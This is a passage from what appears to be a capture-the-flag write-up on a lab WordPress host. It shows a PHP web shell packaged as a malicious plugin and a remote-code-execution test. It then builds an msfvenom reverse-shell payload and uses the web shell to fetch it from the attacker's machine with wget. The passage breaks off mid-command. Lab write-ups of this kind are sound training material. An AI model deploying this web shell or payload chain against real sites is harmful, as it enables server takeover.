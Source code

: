 ```php
    call_user_func_array('system', array($command));
  } elseif (function_exists('call_user_func')) {
    # http://php.net/manual/en/function.call-user-func.php
    call_user_func('system', $command);
  } else if(function_exists('passthru')) {
    # https://www.php.net/manual/en/function.passthru.php
    ob_start();
    passthru($command , $return_var);
    $output = ob_get_contents();
    ob_end_clean();
  } else if(function_exists('system')){
    # this is the last resort. chances are PHP Suhosin
    # has system() on a blacklist anyways :>

    # http://php.net/manual/en/function.system.php
    system($command);
  }
}
?>
```

Save this file as `bubba.php` and make it into a WordPress plugin by packaging the plugin in a zip file. When WordPress receives the zip file, it will extract it into the `wp-content/plugins` directory. Also, WordPress places the contents of the zip file into a folder that matches the name of the zip file itself with a `-1` appended to the end.

- Plugins require certain PHP comments to be considered valid: https://developer.wordpress.org/plugins/plugin-basics/header-requirements/

```bash
zip bubba.zip bubba.php
```

With this ZIP, go to Plugins > Add New > Upload Plugin > Browse > Install Now > Activate Plugin. With the plugin installed & activated, test it with the following:

```bash
curl http://10.10.10.37/wp-content/plugins/bubba-1/bubba.php?cmd=whoami
```

![bubba](./blocky/bubba.png)

Nice! That is remote code execution. With this, it is possible to upload and get a dedicated shell:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > bubba.elf
# host the payload on port 8080
python3 -m http.server 8080
# check for HTTP download tool
curl --data-urlencode "cmd=which wget" \
  http://10.10.10.37/wp-content/plugins/bubba-1/bubba.php
# download shell
curl --data-urlencode "cmd=wget -P /tmp http://10.10.14.23:8080/bubba.elf" \
  http://10.10.10.37/wp-content/plugins/bubba-1/bubba.php
# check if it worked
curl --data-urlencode "cmd=ls -la /tmp" \
  http://10.10.10.37/wp-content/plugins/bubba-1/bubba.php
# make executable
curl --data-urlencode "cmd=chmod +x /tmp/bubba.elf" \
```
